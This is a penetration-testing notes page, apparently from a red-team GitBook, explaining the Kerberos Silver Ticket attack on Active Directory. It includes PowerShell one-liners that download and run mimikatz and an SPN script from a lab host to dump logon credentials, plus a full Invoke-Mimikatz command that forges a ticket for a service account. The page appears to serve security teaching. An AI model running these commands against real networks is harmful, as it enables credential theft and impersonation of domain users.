 # Silver Ticket

## <mark style="color:red;">Intro</mark>

#### This attack includes forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.



On the last step of the process when the client sends a TGS to the service that is where we can send a forged TGS and get access directly to the service and get a service ticket using this method.

![](<../../../.gitbook/assets/image (191).png>)

#### Silver ticket abuses the part of Kerberos authentication where a client sends a Valid TGS to get a service ticket. So if an attacker knows the hash of the service account he can forge a fake service ticket with it. Kerberos will trust it since it can be decrypted by the service as its signed by the NTLM hash of the service.

{% hint style="info" %}
downside of this attack is at unlike golden ticket which gives us access to everything.

&#x20;A silver ticket will only allow us access to a particular service or all the services that are running with the same service account.

Another disadvantage of this attack is if the service account is a machine account or a user account. If the password of the account changes this attack will fail. Since we wont have the correct hash of the user/machine account usually it changes within 30 days for machines.&#x20;

We would generally target these services when it comes to performing a silver ticket attack. CIFS (file system), HOST ( can schedule tasks ), RPCSS Host (runs wmi), WSman/http (ps remoting) all of these use the machine account as there service account.
{% endhint %}

## <mark style="color:red;">Dumping Password Hash</mark>

If an attacker can gain admin rights to the computer (to gain debug access) or be able to run code as local System, the attacker can dump the AD computer account password hash from the system using Mimikatz (the NTLM password hash is used to encrypt RC4 Kerberos tickets)

#### run this with admin privileges to load mimikatz into memory and dump user hashes:

```
powershell -ep bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1/mimikatz.ps1'); invoke-mimikatz -command 'sekurlsa::logonpasswords'"
```

![](<../../../.gitbook/assets/image (189).png>)

**Target** – This is the host, which can be copied from the SPN value.

```
powershell -ep bypass -c "iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/getspn.ps1')"
```

![](<../../../.gitbook/assets/image (186) (1).png>)

## <mark style="color:red;">Forging Silver Ticket</mark>

#### the syntax for mimikatz command is:

```
 Invoke-Mimikatz -Command 'kerberos::golden /domain:megabank.local /sid:S-1-5-21-4081310294-3909750490-1069944866-1156 /target:sql.megabank.local:60111 /service:sql /rc4:77a5ee35032ad22d515577e7bd8e56c7 /user:paul /ptt'
```

**/domain :** domain name

**/sid:** domain SID value

**/target:** target service SPN

**/service:** service name

**/user:** username to create ticket for

**/rc4:** NTLM hash, will use

**/id , /groups :** these are to specify user id and group but this is optional

/endin : specify ticket lifetime in minutes (default 10 years)

**/ptt :** stands for pass the ticket it will load the ticket in memory. If we want to extract ticket on disk we can use **/ticket** option instead.

#### Now if we run the command above we get silver ticket that is created and stored in our current session

#### Now if we try to access the file system on sql.megabank.local machine. We can do it because we already have the tickets to authenticate us.

## <mark style="color:red;">Host Exploitation with Silver Ticket</mark>

By issuing a klist command you can see that we now have the ticket for sql service.

![](<../../../.gitbook/assets/image (190).png>)

more attack scenarios with silver tickets

{% embed url="https://adsecurity.org/?p=2011" %}
